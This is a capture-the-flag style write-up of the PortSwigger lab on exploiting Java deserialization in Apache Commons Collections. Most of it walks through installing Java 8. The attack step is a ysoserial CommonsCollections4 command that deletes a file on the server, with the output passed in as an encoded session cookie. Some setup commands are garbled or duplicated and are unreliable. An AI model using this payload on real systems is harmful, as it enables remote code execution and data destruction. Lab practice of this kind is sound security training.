 # PortSwigger Insecure Deseleraization Part 2

[**Lab: Exploiting Java deserialization with Apache Commons | Web Security Academy**  
*This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you…*portswigger.net](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons "https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons")


```
Lab:- Exploiting Java with Apache Commons 
Lab type:- PRACTITIONER
```

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don’t have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`.


---

This lab will be a little different and uses a tool called **Ysoserial**, we will install the tool first and see how to use it along with errors you might encounter while using the tool, also installing appropriate dependencies for it to work perfectly

Also, note that Java 8 is not found in the kali linux repo so you will have to install it manually using the given method

First Install java8, you might get confused about which particular version to use so I have included the download link for it, you might have to signup for into Oracle site in order to download

[Java Archive Downloads — Java SE 8u211 and later](https://www.oracle.com/java/technologies/javase/javase8u211-later-archive-downloads.html#license-lightbox)

Into the terminal, you can check which version of Java you are currently using


```bash
java --version
```
now cd into


```bash
cd /usr/lib/jvm
```
if there is no package of Java installed in your system you can manually create this directory

now in the /usr/lib/jvm unzip the downloaded package of java8


```bash
sudo tar -xvzf /home/logic/jdk-8u371-linux-x64.tar.gz
```
now cd into jdk1.8.0\_371/ and check the full path of the directory which should be something like this


```bash
/usr/lib/jvm/jdk1.8.0\_371
```
now using any text editor you have to edit the /etc/environment file i am using vi here


```bash
sudo vi /etc/environment
```
and add the following path


```bash
/usr/lib/jvm/jdk1.8.0\_371/bin:usr/lib/jvm/jdk1.8.0\_371/db/bin:usr/lib/jvm/jdk1.8.0\_371/jre/bin
```
Run the following command one by one


```bash
sudo update-alternatives - install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0\_371/bin/java" 0
```

```bash
sudo update-alternatives - install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0\_371/bin/javac" 0
```

```bash
sudo update-alternatives - set java /usr/lib/jvm/jdk1.8.0\_371/bin/javasudo update-alternatives - set java /usr/lib/jvm/jdk1.8.0\_371/bin/java
```

```bash
sudo update-alternatives - set java /usr/lib/jvm/jdk1.8.0\_371/bin/javac
```

```bash
sudo update-alternatives - config java
```

```bash
java -version
```

![Open Lightbox](../assets/pslid11.webp){ .glightbox .center width="500" }

It should be set to java8 if you used the command above and you can choose between java17 and java8 in my case, you might be having different versions but you should set it to java8 and java8c

now install Ysoserial using the given link:-

<https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar>

Now we are good to go let’s start the lab

![Open Lightbox](../assets/pslid12.webp){ .glightbox .center width="500" }

after the lab starts open burp suite along with it and go to the login page and log in with the given credentials weiner:peter

![Open Lightbox](../assets/pslid3.webp){ .glightbox .center width="500" }

now open the burp suite proxy tab and in HTTP History

![Open Lightbox](../assets/pslid14.webp){ .glightbox .center width="500" }

now using ysoserial tool we will generate a payload


![Open Lightbox](../assets/pslid15.webp){ .glightbox .center width="500" }

```bash
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base  
64
```
now turn on the intercept tab and click on the home tab and send that request to the repeater tab

![Open Lightbox](../assets/pslid16.webp){ .glightbox .center width="500" }

now copy the cookie generated by ysoserial tool and replace it with the cookie in the repeater tab

also, encode the cookie with URL encoding

and there you go the lab is solved


![Open Lightbox](../assets/pslid17.webp){ .glightbox .center width="500" }

Thanks for reading
